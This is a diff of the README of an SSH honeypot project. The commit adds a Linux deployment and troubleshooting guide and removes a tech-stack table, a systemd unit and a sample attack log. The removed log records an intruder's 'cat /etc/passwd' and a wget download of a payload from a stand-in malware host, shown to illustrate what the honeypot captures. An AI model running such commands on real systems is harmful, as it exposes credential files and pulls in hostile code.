

Before and after one commit to AnassElhamri/ssh-honeypot, a Markdown page: README.md, the part around the change. Shown at 91% size. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
docs: finalize foolproof production guide and troubleshooting

````diff
--- a/README.md
+++ b/README.md
@@ -223,68 +223,56 @@ alerts:
 
 ---
 
-## Production Deployment
+## 🚀 Production Deployment (Linux)
 
+To deploy your honeypot on a real production server (like Ubuntu), follow these steps to ensure port 22 is handled safely:
+
+1. **Move your real SSH port**:
+   Attackers look for port 22. Move your real SSH to something else (e.g., 2222) first.
+   ```bash
+   sudo sed -i 's/#Port 22/Port 2222/' /etc/ssh/sshd_config
+   sudo systemctl restart ssh
+   ```
+
+2. **Allow ports in Firewall (UFW)**:
+   ```bash
+   sudo ufw allow 2222/tcp  # Your new real SSH port
+   sudo ufw allow 22/tcp    # The honeypot port
+   sudo ufw enable
+   ```
+
+3. **Bind to Port 22 safely**:
+   Linux prevents non-root users from binding to ports below 1024. Use `setcap` to allow the honeypot binary to use port 22 without needing `sudo` for every run:
+   ```bash
+   sudo setcap 'cap_net_bind_service=+ep' ./honeypot
+   ```
+
+4. **Run in Background**:
+   To keep the honeypot active after closing your session:
+   ```bash
+   nohup ./honeypot --no-dashboard &
+   ```
+
+### 🛠️ Troubleshooting
+
+#### "Server error: bind: address already in use"
+Another process is using your port (usually your real SSH or a previous honeypot run).
+Check what's on the port:
 ```bash
-# Run on port 22 (requires root or capability)
-sudo setcap 'cap_net_bind_service=+ep' ./honeypot
-./honeypot --config config.yaml
-
-# Or use systemd
-sudo cp honeypot /usr/local/bin/
-sudo cp config.yaml /etc/honeypot/config.yaml
+sudo lsof -i :22
+sudo lsof -i :2222
 ```
 
-Example systemd service:
-```ini
-[Unit]
-Description=SSH Honeypot
-After=network.target
+#### Dashboard not appearing
+- Ensure `enabled: true` is set in `config.yaml` under `dashboard`.
+- Try running with `sudo -E ./honeypot` to preserve terminal environment variables (like `$TERM`).
 
-[Service]
-ExecStart=/usr/local/bin/honeypot --config /etc/honeypot/config.yaml --no-dashboard
-Restart=always
-User=root
-WorkingDirectory=/etc/honeypot
-
-[Install]
-WantedBy=multi-user.target
-```
+#### GeoIP not showing countries
+- Ensure `data/GeoLite2-City.mmdb` is present in the project folder.
+- If missing, the tool will automatically try to use `ip-api.com` (requires internet access).
 
 ---
 
-## Tech Stack
+## 🛡️ License
 
-| Component | Technology |
-|-----------|-----------|
-| Language | Go 1.22 |
-| SSH protocol | `golang.org/x/crypto/ssh` |
-| Database | SQLite via `github.com/mattn/go-sqlite3` |
-| TUI Dashboard | `github.com/rivo/tview` + `tcell` |
-| GeoIP | MaxMind GeoLite2 / ip-api.com |
-| Config | YAML via `gopkg.in/yaml.v3` |
-
----
-
-## What You'll See
-
-Within minutes of deploying on a public server:
-
-```
-2026-03-13 12:00:01 [INFO] NEW CONNECTION  ip=218.92.0.x       session=1
-2026-03-13 12:00:01 [INFO] AUTH ATTEMPT    ip=218.92.0.x       user=root               pass=root       ver=SSH-2.0-libssh-0.9.5
-2026-03-13 12:00:02 [INFO] AUTH ATTEMPT    ip=218.92.0.x       user=root               pass=123456     ver=SSH-2.0-libssh-0.9.5
-2026-03-13 12:00:02 [INFO] AUTH ATTEMPT    ip=218.92.0.x       user=root               pass=password   ver=SSH-2.0-libssh-0.9.5
-2026-03-13 12:00:03 [INFO] GEOIP           ip=218.92.0.x       🇨🇳 China  Shanghai  China Telecom
-2026-03-13 12:00:04 [INFO] AUTH ACCEPTED   ip=218.92.0.x       user=root  (honeypot shell)
-2026-03-13 12:00:05 [INFO] COMMAND         ip=218.92.0.x       cmd=whoami
-2026-03-13 12:00:06 [INFO] COMMAND         ip=218.92.0.x       cmd=cat /etc/passwd
-2026-03-13 12:00:08 [INFO] COMMAND         ip=218.92.0.x       cmd=wget http://malware.example/payload.sh
-2026-03-13 12:00:11 [INFO] DISCONNECT      ip=218.92.0.x       duration=10s  creds=3  cmds=4
-```
-
----
-
-## License
-
-MIT
+This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
````
